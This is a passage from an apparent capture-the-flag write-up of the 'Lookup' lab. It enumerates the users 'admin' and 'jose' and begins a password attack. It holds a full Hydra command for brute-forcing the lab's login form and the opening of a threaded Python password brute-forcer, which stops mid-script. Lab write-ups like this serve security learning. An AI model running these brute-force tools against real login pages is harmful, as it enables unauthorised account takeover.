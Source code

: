 ![](cybersecurity/images/Pasted%2520image%252020241202142821.png)

We got two usernames: `admin` and `jose`

#### Output
---


### Hydra
---


```ad-note

#### Hydra
---

`sudo hydra -VI -t 64 -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p 'test' lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:F=Wrong username or password. Please try again.' | grep -Eiv 'ATTEMPT'`

#### Output
---
![](cybersecurity/images/Pasted%2520image%252020241202142755.png)

Got the same usernames as before, let's bruteforce the password
```


For brute forcing the password, we can use the following Python code:

```python
import requests
import sys
from tqdm import tqdm
import threading

valid_passwords = []
invalid_passwords = []
lock = threading.Lock()


def check_user_password(url, user, password):
    invalid_errors = [
        "Wrong password. Please try again.",
        "Wrong username or password. Please try again."
    ]
    headers = {
        'Host': 'lookup.thm',
        'User-Agent': 'Intigriti',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,'
				  'image/svg+xml,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://lookup.thm/',
        'Connection': 'keep-alive',
        'Referer': 'http://lookup.thm/login.php',
        'Upgrade-Insecure-Requests': '1',
        'Priority': 'u=0, i',
    }

    data = {
        'username': user,
        'password': password
```